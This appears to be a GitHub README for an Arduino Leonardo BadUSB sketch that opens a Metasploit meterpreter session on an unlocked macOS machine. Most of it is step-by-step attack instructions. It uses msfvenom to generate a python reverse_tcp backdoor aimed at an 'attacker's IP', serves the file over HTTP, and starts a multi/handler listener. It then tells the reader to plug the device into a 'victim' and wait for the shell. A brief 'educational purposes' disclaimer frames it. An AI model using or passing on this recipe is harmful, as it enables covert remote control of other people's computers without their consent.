 # Description
A simple sketch for handle MacOS meterpreter session using an Arduino Leonardo (atmega32u4)
# Disclaimer
This sketch was created only for educational purposes. This script shows the danger of leaving your computer unlocked. The author respects the rights and freedom of each person and is not responsible for your actions.
# Demonstration
MacOS desktop:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/badusb_macos.gif)
Kali:
![]()
# Usage 
We need to use Metasploit Framework and simple http server, you can use Kali Linux

1. Generate a backdoor file
```
$ msfvenom payload python/meterpreter/reverse_tcp LHOST=attacker's IP LPORT=8080 > /var/www/html/path/to/file
```
2. Run simple HTTP server 
```
$ cd /var/www/html/
$ python3 -m http.server 8081
```
3. Open Metasploit and start multi-handler
```
$ use exploit/multi/handler
$ set payload python/meterpreter/reverse_tcp
$ set LHOST attacker's IP
$ set LPORT 8080
$ run
```
4. Download .ino file and Arduino IDE
5. Update attacker's IP, host, port and path to backdoor file using Arduino IDE
6. Upload this sketch to your Arduino Leonardo using Arduino IDE
7. Put your BadUSB to victim and wait a capture of meterpreter session!
